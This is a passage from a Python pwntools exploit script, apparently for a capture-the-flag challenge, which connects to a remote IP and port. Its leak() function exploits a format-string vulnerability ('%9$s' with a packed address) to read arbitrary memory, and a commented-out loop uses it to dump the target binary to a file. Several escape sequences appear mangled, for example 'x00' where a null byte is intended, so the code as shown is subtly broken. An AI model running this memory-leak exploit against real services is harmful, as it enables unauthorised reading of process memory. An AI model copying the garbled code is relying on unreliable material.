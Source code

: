 ```
    else:
        io = remote('218.2.197.235',23745)
    ru('men')
    return io
if VERBOSE: context(log_level='debug')
# define symbols and offsets here
# simplified r/s function
def ru(delim):
    return io.recvuntil(delim)
def rn(count):
    return io.recvn(count)
def ra(count):      # recv all
    buf = ''
    while count:
        tmp = io.recvn(count)
        buf += tmp
        count -= len(tmp)
    return buf
def sl(data):
    return io.sendline(data)
def sn(data):
    return io.send(data)
def info(string):
    return log.info(string)
def dehex(s):
    return s.replace(' ','').decode('hex')
def limu8(x):
    return c_uint8(x).value
def limu16(x):
    return c_uint16(x).value
def limu32(x):
    return c_uint32(x).value
# define interactive functions here
# 8 -&gt; 9
# 12 -&gt; 10
def leak(address):
    if 'n' in p32(address) or 'x00' in p32(address):    return 'x00'
    tem = '~~%9$s~~' + p32(address)
    sl(tem)
    ru('~~')
    data = ru('~~')[:-2]
    return data + 'x00'
# define exploit function here
def pwn():
    global io
    if DEBUG: gdb.attach(io)
    io = makeio()
    '''
    f = open('dump.bin', 'wb')
    address = 0x8048000
    while 1:
        try:
            io = makeio()
            while 1:
                data = leak(address)
                f.write(data)
                address += len(data)
        except Exception, ex:
            io.close()
    f.flush()
    f.close()
    '''
    sl('s')
```